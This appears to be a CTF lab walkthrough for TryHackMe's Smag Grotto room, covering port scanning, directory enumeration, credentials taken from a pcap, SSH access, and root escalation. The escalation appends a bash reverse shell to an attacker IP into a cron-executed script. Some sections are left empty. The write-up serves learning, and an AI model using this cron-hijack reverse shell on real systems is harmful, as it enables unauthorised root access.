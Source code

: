 # Smag Grotto

<div align="left">

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption><p>tryhackme.com - © TryHackMe</p></figcaption></figure>

</div>

🔗 [Smag Grotto](https://tryhackme.com/room/smaggrotto)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.137.60`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.10.71.2 smag.thm" >> /etc/hosts

mkdir thm/smag.thm
cd thm/smag.thm
mkdir {nmap,content,exploits,scripts}

# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 smag.thm
PING smag.thm (10.10.71.2) 56(84) bytes of data.
64 bytes from smag.thm (10.10.71.2): icmp_seq=2 ttl=63 time=97.3 ms
64 bytes from smag.thm (10.10.71.2): icmp_seq=3 ttl=63 time=68.6 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix, while Windows systems usually have a TTL of 128 secs.

### 2.1 - What is the secret spicy soup recipe?

Of course, start to check information scanning open ports:

```bash
nmap --open -p0- -n -Pn -vvv --min-rate 5000 smag.thm -oG nmap/port_scan
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-31 18:24 EDT
Initiating SYN Stealth Scan at 18:24
Scanning smag.thm (10.10.71.2) [65536 ports]
Discovered open port 80/tcp on 10.10.71.2
Discovered open port 22/tcp on 10.10.71.2
Completed SYN Stealth Scan at 18:24, 18.21s elapsed (65536 total ports)
Nmap scan report for smag.thm (10.10.71.2)
Host is up, received user-set (1.8s latency).
Scanned at 2023-07-31 18:24:20 EDT for 19s
Not shown: 59890 closed tcp ports (reset), 5644 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there are 2 open ports on the machine: 22, 80.

Now, we need to search which services are running on open ports:

```bash
nmap -p22,80 -n -Pn -vvv -sCV --min-rate 5000 smag.thm -oN nmap/open_port
```

We can start to explore website (80):

<figure><img src="../.gitbook/assets/Schermata del 2023-08-01 00-31-11 (1).png" alt=""><figcaption></figcaption></figure>

we see that website is under development, it means that can be vulnerabilities, try to explore source code:

<figure><img src="../.gitbook/assets/Schermata del 2023-08-01 00-31-37.png" alt=""><figcaption></figcaption></figure>

Nothing of interesting! We can try to use gobuster to search hidden paths:

```bash
gobuster dir -u http://smag.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

```bash
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://smag.thm/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/31 18:35:16 Starting gobuster in directory enumeration mode
===============================================================
/mail                 (Status: 301) [Size: 303] [--> http://smag.thm/mail/]
Progress: 87664 / 87665 (100.00%)
===============================================================
2023/07/31 18:45:07 Finished
===============================================================
```

We find 'only' this good path: http:\\\smag.thm/mail

<figure><img src="../.gitbook/assets/Schermata del 2023-08-01 00-38-33.png" alt=""><figcaption><p><a href="https://http/smag.thm/mail">http:\\smag.thm/mail</a></p></figcaption></figure>

Give focus on this .pcap file (wireshark extension), how first paragraph suggests, we can download all attachments using wget command.

<figure><img src="../.gitbook/assets/Schermata del 2023-08-01 00-39-26.png" alt=""><figcaption></figcaption></figure>

We can open file downloaded using wireshark or command strings:

```
strings dHJhY2Uy.pcap 
```

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-08-01 00-49-23.png" alt=""><figcaption></figcaption></figure>

</div>

There's a fantastic info: username=helpdesk\&password=cH4nG3M3\_n0w

We can use this credentials to try ssh access:

```bash
ssh helpdesk@smag.thm
```





### Task 3 - What is the user flag? 

\


We quickly try to find user.txt flag using find command:\


```bash
```







```bash
```

<details>

<summary>🚩 Flag 1 (user.txt)</summary>



</details>

### Task 4 - What is the root flag? 



We can continue to explore files:

```bash
ls -lah *
    -rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
    
    Documents:
    total 20K
    drwxr-xr-x 2 lennie lennie 4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
    -rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
    -rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
    
    scripts:
    total 16K
    drwxr-xr-x 2 root   root   4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
    -rw-r--r-- 1 root   root      1 May 15 13:38 startup_list.txt

cat scripts/*
cat Documents/*
cat /etc/print.sh
ls -lah /etc/print.sh
	-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

We see that planner.sh will be run as root (with a cron job), and use /etc/print.sh with lennie permission, we can modify it inserting a reverse shell as payload:

```bash
echo "/bin/bash -i >& /dev/tcp/10.9.80.228/666 0>&1" >> /etc/print.sh                                                     
```

Then, we run on our kali machine netcat on the same port (666):

```bash
nc -nvlp 666
```

and wait root that will run the planner.sh script once a minute.

<figure><img src="../.gitbook/assets/Schermata del 2023-07-30 12-37-21.png" alt=""><figcaption></figcaption></figure>

Well done! We find root flag:

```bash
ls
cat root.txt
```

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-07-30 12-38-55.png" alt=""><figcaption></figcaption></figure>

</div>

<details>

<summary>🚩 Flag 2 (root.txt)</summary>



</details>
